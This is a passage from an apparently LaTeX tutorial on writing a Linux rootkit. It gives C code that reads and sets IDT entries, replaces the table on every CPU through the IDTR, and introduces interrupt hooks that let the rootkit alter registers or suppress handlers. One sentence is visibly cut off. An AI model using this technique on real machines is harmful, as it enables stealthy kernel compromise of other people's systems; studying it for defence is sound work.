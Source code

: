 An IDT entry is not just a pointer to a handler, it also contains some flags.

\begin{ccode}
void idt_set_entry(unsigned long addr, int n) {
    idt_table[n].offset_high = (addr >> 32) & 0xffffffff;
    idt_table[n].offset_middle = (addr >> 16) & 0xffff;
    idt_table[n].offset_low = addr & 0xffff;
}

unsigned long idt_get_entry(int n) {
    return (((unsigned long)cur_idt_table[n].offset_high) << 32)
         + (((unsigned long)cur_idt_table[n].offset_middle) << 16)
         + (((unsigned long)cur_idt_table[n].offset_low));
}
\end{ccode}

\paragraph{Change the whole table}\mbox{}\\
The address of the table is stored in an unique location: in the CPU's IDTR.
If we change the value of the register with our table, all the futur accesses
will use our table instead of the old one. The advantage is that we do not need
to modify read-only data, but only a register.
Note that if you have a multi-core CPU, you will need to change the register
of each CPU. This can be done with the function .

\begin{ccode}
static struct gate_struct64 new_idt_table[256];

static void substitute_idt_table(void) {
    struct desc_ptr idtr;

    /* Retrieve the original table */
    local_store_idt(&idtr);
    idt_table = (struct gate_struct64 *)idtr.address;
    idt_table_sz = idtr.size;

    memcpy(new_idt_table, idt_table, idt_table_sz);

    /* Set the new table in the CPUs'IDTR */
    idtr.address = (unsigned long)new_idt_table;
    idtr.size = idt_table_sz;
    on_each_cpu(local_load_idt, &idtr, 1);
}
\end{ccode}


\subsubsection{Creating hooks}
Now that we got the control of the table, it's time to modify the handlers!
The goal of this chapter is to run a hook before the original handler and
allow the rootkit to read and/or modify the registers to alter the normal
behaviour. Our hook then decide if it wants to execute the orginal handler
or not. In some cases we don't want the original handler to be run because
we just want to intercept the interrupts.

